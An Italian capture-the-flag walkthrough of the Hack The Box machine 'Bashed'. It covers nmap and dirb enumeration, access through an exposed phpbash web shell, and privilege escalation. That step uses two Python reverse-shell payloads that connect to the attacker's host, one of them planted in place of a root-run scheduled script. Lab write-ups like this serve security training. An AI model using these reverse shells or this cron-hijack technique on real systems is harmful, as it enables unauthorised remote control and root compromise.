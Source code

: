 # Bashed

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap per conoscere le porte aperte e i servizi che girano su di esse.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.68
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Le porte aperte sono le seguenti:

* **Porta 80** Apache httpd 2.4.18

```text
Nmap scan report for 10.10.10.68
Host is up (0.074s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=9/19%OT=80%CT=1%CU=31805%PV=Y%DS=2%DC=I%G=Y%TM=65095D2
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=107%GCD=1%ISR=10C%TI=Z%CI=I%TS=8)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=
OS:7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
```

## Enumeration

In questa fase cerco di capire se qualcuno di questi servizi è configurato in modo errato o se presenta vulnerabilità note.

### 1) Porta 80 Apache 2.4.18

Non trovo nulla di interessante da sfruttare.

### 2) Directory enumeration

Utilizzo il comando dirb, dal quale ottengo il seguente risultato:

```text
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Sep 19 04:37:19 2023
URL_BASE: http://10.10.10.68/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.68/ ----
==> DIRECTORY: http://10.10.10.68/css/                                                                              
==> DIRECTORY: http://10.10.10.68/dev/                                                                              
==> DIRECTORY: http://10.10.10.68/fonts/                                                                            
==> DIRECTORY: http://10.10.10.68/images/                                                                           
+ http://10.10.10.68/index.html (CODE:200|SIZE:7743)                                                                
==> DIRECTORY: http://10.10.10.68/js/
```

Provo ad ispezionare la seguete pagina http://10.10.10.68/dev/ e mi ritrovo qui:

<p align="center">
  <img src="/Immagini/Linux-Box/Bashed/bashed-1.png" />
</p>

Aprendo il file _phpbash.php_ accedo a una shell dalla quale riesco a ricavare il primo flag user.txt.

<p align="center">
  <img src="/Immagini/Linux-Box/Bashed/bashed-2.png" />
</p>

## Privilege Escalation

Per prima cosa controllo i permessi dell'utente:

<p align="center">
  <img src="/Immagini/Linux-Box/Bashed/bashed-3.png" />
</p>

Quindi posso utilizzare l'utente _scriptmanager_ senza il bisgono di conoscere una password.

Prima di proseguire avvio una reverse shell sulla mia macchina. Per farlo faccio partire un listener sulla porta 4444 e sfrutto python sulla macchina bashed attraverso l'utilizzo di questo comando:

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Successivamente cambio l'utente a _scriptmanager_:

```text
sudo -i -u scriptmanager
```

Mi soffermo sulla direcotry _/scripts_ sulla quale l'utente _scriptmanager_ ha i privilegi in lettura/scrittura.

<p align="center">
  <img src="/Immagini/Linux-Box/Bashed/bashed-4.png" />
</p>

Noto che lo script python test.py scrive sul file test.txt, il quale ha privilegi root. Inoltre, il file test.txt è stato creato da poco e sembra che venga aggiornato ogni minuto. Per questo motivo può essere sfruttato per creare una reverse shell con privilegi root.

Sulla mia macchina creo uno script _test.py_ che mi permettera di generare una reverse shell (preso da [qui](https://www.oreilly.com/library/view/hands-on-red-team/9781788995238/cd15b05d-822f-494d-939a-ae5a671222ff.xhtml)):

```text
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.2",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Modifico i permessi:

```text
chmod 777 test.py
```

Successivamente, prima di procedere all'invio del file alla macchina bashed, avvio un listener sulla porta 5555.

**Sono dentro!**

<p align="center">
  <img src="/Immagini/Linux-Box/Bashed/bashed-5.png" />
</p>
